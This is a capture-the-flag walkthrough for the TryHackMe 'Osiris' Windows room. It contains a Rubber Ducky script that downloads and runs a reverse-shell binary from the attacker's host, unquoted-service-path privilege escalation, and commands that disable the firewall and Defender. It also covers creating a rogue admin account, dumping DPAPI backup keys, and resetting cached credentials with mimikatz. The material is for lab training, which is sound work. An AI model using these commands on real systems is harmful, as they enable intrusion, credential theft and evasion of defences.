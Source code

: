 # Osiris - WIP

https://tryhackme.com/room/osiris

Rated "INSANE"

## Flag 1 - Initial Foothold

The machine won't respond to scans, but as the description says, tftp is open. This first requires that you have a tftp client, on the attack box install using `sudo apt install tftp`, then connect using `tftp <targetip>`, however first we need a script.

To exploit rubberducky, I used the script below. This uses [reverse_ssh](https://github.com/NHAS/reverse_ssh), my revshell of choice, which is typically ignored by windows defender and other protection mechanisms.

```
DELAY 1000
GUI r
DELAY 200
STRING powershell -W hidden
ENTER
DELAY 3000
STRING Invoke-WebRequest http://10.10.80.36:1234/client.exe -outfile c:\windows\temp\c.exe
ENTER
DELAY 3000
STRING c:\windows\temp\c.exe
ENTER
```

I put the above in a file named `script`, then connected over tftp and ran `put script` to put it in place. For this to work, a local webserver on port 1234 allows client.exe to be downloaded, and I got a shell connection in seconds.

On the machine as `alcrez` the first flag is in their desktop folder. 

## Flag 2 - Privesc to System

Downloading further files (e.g. obfuscated winpeas or other exploit tools) can be done with `bitsadmin.exe /transfer /Download /priority Foreground http://10.10.80.36:1234/w.exe c:\windows\temp\w.exe`, or using tftp if that floats your boat.

To privesc to system, a few things can be picked up from local enumeration:

- there is a folder at c:\scripts, that contains a vbs file and a cmd file. The vbs file seems to do nothing, but appears to relate to a local service (details next), while the cmd file downloads a zip file to c:\temp, extracts it, then force copies its contents to `c:\program files\ivpn client`.
- there is a local service named `ivpn service` that executes the ivpn client. notably this service uses an unquoted path, and so if you could get an exe named ivpn into program files or into the ivpn folder, you could hijack the service.
- the service runs as system, but as the user alcrez you have the rights to restart the service.

Presumably the vbs script that seems to do nothing triggers whatever is needed to run the extract and copy operation. This can be tested by putting any arbitary file into c:\temp, running the vbs, and observing that file is now inside the program files vpn folder. The path to privesc is thus: create a valid service binary that will give you a rev shell and avoids defender, put that in c:\temp, run the vbs script and finally restart the service to trigger the binary.

To exploit this, I used bitsadmin to download a service binary (specifically my own [unquoted](https://github.com/ChrisPritchard/unquoted)) that would run my reverse shell payload. I placed this in c:\temp with the name IVPN.exe, then ran `c:\scripts\update.vbs`. Finally I restarted the service with `restart-service -displayname "ivpn*"`.

> Note, I found this a bit finicky. Sometimes it would work, sometimes the update.vbs wouldn't trigger an update of the files (maybe due to file locks etc), or the service wouldnt start. One way to diagnose is to check with `Get-EventLog -LogName "Application" -Newest 3 -EntryType "Error" -Source ".NET Runtime" -ErrorAction SilentlyContinue | Select -ExpandProperty Message` which might print a helpful stacktrace. Otherwise, just terminating and renewing the osiris machine was the best option.

This triggered the revshell and I got a session as NT AUTHORITY/SYSTEM. The second flag was in the user chajoh's desktop folder.

## Flag 3 - DPAPI

The final flag is in a keepass database under documents for the user chajoh. This DB is set so the user can access it using their logon information (e.g. no password), which means it can't be opened unless we have an interactive session as the user chajoh.

The problem is there is no active session for chajoh to hijack, so we would need their password to login. We can extract an ntlm hash, but its unbreakable. We can force change the password using our admin session, but that would invalidate the keepass encryption meaning we would no longer be able to open the db. The intended solution is to use the ntlm hash of the user plus the domain DPAPI master key (extracted from the domain controller in prior rooms, Ra or Ra2) to generate a new key for keepass so it can be opened properly.

The steps below require mimikatz: grab this [from here](https://github.com/gentilkiwi/mimikatz/releases), extract on the attacker machine, and then use x64/mimikatz.exe in your endeavours.

The ops also require some CQ tools, CQMasterKeyAD.exe and CQDPAPIBlobSearcher.exe. These were very hard to find :(

Steps:

1. Get the dpapi backup key from [Ra](https://tryhackme.com/room/ra) or [Ra 2](https://tryhackme.com/room/ra2): Once getting system/admin on these machines, get and run mimikatz and then `lsadump::backupkeys /system:localhost /export`. Exfiltrate the pfx file. This will then need to have its password changed from `mimikatz` to `cqure`, with `openssl pkcs12 -in DMK.pfx -out temp.pem -nodes` and `openssl pkcs12 -export -out DMK.pfx -in temp.pem`
2. Enable remote desktop access to the Osiris machine: `Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0` and add everyone to remote desktop users: `net localgroup "Remote Desktop Users" Everyone /add`. You also need to disable the firewall: `netsh advfirewall set allprofiles state off`
3. Osiris will block mimikatz, so you need to disable defender, There are a few ways to do this, but the simplest for me was to create a new admin user, login and disable it manually through windows security: `net user aquinas P@ssw0rd! /add` and `net localgroup Administrators aquinas /add` (also add to remote desktop users). Once connected over remote desktop, I disabled defender in `windows security > virus & threat protection > virus & threat protection settings > real-time protection`
4. Get mimikatz onto Osiris and replace cherjoh's password in the ntlm cache: `lsadump::cache /user:chajoh /password:NewPassword1234 /Kiwi`
5. You can then connect over remote desktop, using `windcorp.thm\chajoh` and the new password.
6. The final extraction from the database is complicated. Use this to find the file name of the key used to secure the keepass database: 
`.\CQDPAPIBlobSearcher.exe /d C:\Users\chajoh\AppData\Roaming /r /o C:\Users\chajoh\Desktop\`. This should find a guid which corresponds to a file under chajoh\appdata\roaming\microsoft\protect\SID
7. Re-encrypt the key with `.\CQMasterKeyAD.exe /file C:\Users\chajoh\AppData\Roaming\Microsoft\Protect\S-1-5-21-555431066-3599073733-176599750-1125\a773eede-71b6-4d66-b4b8-437e01749caa /pfx .\DMK.pfx /newhash bce4433c7aafc0dbafcc69883f050a15`. Apply the right attributes to make this a system file: `attrib "C:\Users\chajoh\AppData\Roaming\Microsoft\Protect\S-1-5-21-555431066-3599073733-176599750-1125\a773eede-71b6-4d66-b4b8-437e01749caa" +S +H`.

All going well you should be able to open the keepass file now. It seems quite finicky.
